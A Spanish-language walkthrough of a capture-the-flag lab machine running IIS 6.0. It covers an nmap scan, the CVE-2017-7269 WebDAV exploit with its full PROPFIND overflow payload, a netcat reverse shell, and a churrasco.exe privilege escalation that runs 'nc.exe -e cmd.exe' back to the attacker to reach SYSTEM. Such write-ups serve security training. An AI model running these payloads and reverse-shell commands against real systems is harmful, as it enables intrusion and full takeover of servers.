

Reconocimiento
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.14Nmap scan report for 10.10.10.14
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 6.0
| http-methods:
|_ Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan:
| WebDAV type: Unknown
| Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
| Server Type: Microsoft-IIS/6.0
| Server Date: Wed, 30 Mar 2022 08:16:08 GMT
|_ Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windowsVemos que tiene el puerto 80 (http) abierto y la versión del servidor es Microsoft IIS httpd 6.0 puede ser que sea vulnerable a CVE-2017-7269
Explotación
Nos descargamos el exploit el cual no dará una reverse shell por la cual tendremos que tener un puerto a la escucha con netcat.
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269nc -lvp 443Le damos permisos de ejecución al exploit y lo ejecutamos con nuesta ip y por el puerto que vamos a tener a la escucha.
python2 iis6\ reverse\ shell 10.10.10.14 80 10.10.14.9 443PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨﾡﾣﾝﾡﾄﾳ￦ﾤﾶ￤ﾝﾲﾨﾹ￤ﾭﾷ￤ﾽﾰﾕﾓﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑﾉﾁ￤ﾈﾱﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌﾕﾖﾕﾵ￦ﾙﾯﾙﾨ￤ﾑﾍ￥ﾁﾰﾨﾶ￦ﾉﾋ￦ﾕﾗﾕﾐ￦ﾩﾲﾩﾫﾝﾢﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃﾘﾲﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ￥ﾑﾈﾂﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌﾁﾋ￦ﾍﾆ￥ﾅﾳﾥﾁﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbbﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏﾩﾆ￣ﾑﾱ￦ﾽﾔﾑﾃ￥ﾥﾖ￦ﾽﾯﾍﾁ￣ﾑﾗ￦ﾅﾨﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰﾡﾯﾉﾓ￦ﾝﾐ￤ﾕﾓﾩﾣﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶﾍﾹ￦ﾡﾷﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂﾑﾤﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵﾉﾺﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃﾾ￡ﾏﾀ￦ﾠﾃﾮ￦ﾠﾃﾅﾮﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫﾙﾫﾉﾊﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀﾜﾲﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>Y por el netcat tendremos la ReverseShell.
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.14] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network serviceEl usuario que obtenemos es nt authority\network service y no de system y por lo tanto tendremos que elevar privilegios.
Podemos ejecutar el comando systeminfo en la máquina víctima para pasarlo por el wes.py (python script para buscar exploits de windows)
C:\Documents and Settings>systeminfopython2 wes.py systeminfo.txt --exploits-only -i "Elevation of Privilege"Entre todas las vluns que encontramos podemos ver la CVE-2008-1436 que utiliza el exploit churrasco.exe para elevar privilegios.
Date: 20090414
CVE: CVE-2008-1436
KB: KB952004
Title: Vulnerabilities in Windows Could Allow Elevation of Privilege
Affected product: Microsoft Windows Server 2003 x64 Edition
Affected component:
Severity: Important
Impact: Elevation of Privilege
Exploit: https://www.exploit-db.com/exploits/6705Nos descargamos el churrasco.exe y el netcat.exe y los servimos con un servidor smb para poder pasarselos a la máquina windows.
wget https://github.com/Re4son/Churrasco/blob/master/churrasco.exe
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
impacket-smbserver share $(pwd) -smb2supportLos descargamos en la carpeta Temp:
C:\WINDOWS\Temp>copy \\10.10.14.9\share\ch.exe
copy \\10.10.14.9\share\ch.exe
1 file(s) copied.
C:\WINDOWS\Temp>copy \\10.10.14.9\share\nc.exe
copy \\10.10.14.9\share\nc.exe
1 file(s) copied.
C:\WINDOWS\Temp>Y nos podemos en escucha con netcat por un puerto diferente al usado.
nc -lvp 444Y ya podemos ejecutar el comando para obtener una reverse shell con churrasco.exe
ch.exe -d "nc.exe -e cmd.exe 10.10.14.9 444"connect to [10.10.14.9] from (UNKNOWN) [10.10.10.14] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
C:\WINDOWS\TEMP>Flag User Harry:
C:\Documents and Settings\Harry\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is FDCB-B9EF
Directory of C:\Documents and Settings\Harry\Desktop
04/12/2017 05:32 PM <DIR> .
04/12/2017 05:32 PM <DIR> ..
04/12/2017 05:32 PM 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 1,320,251,392 bytes freeFlag nt authority\system:
C:\Documents and Settings\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is FDCB-B9EF
Directory of C:\Documents and Settings\Administrator\Desktop
04/12/2017 05:28 PM <DIR> .
04/12/2017 05:28 PM <DIR> ..
04/12/2017 05:29 PM 32 root.txt
1 File(s) 32 bytes
2 Dir(s) 1,318,543,360 bytes free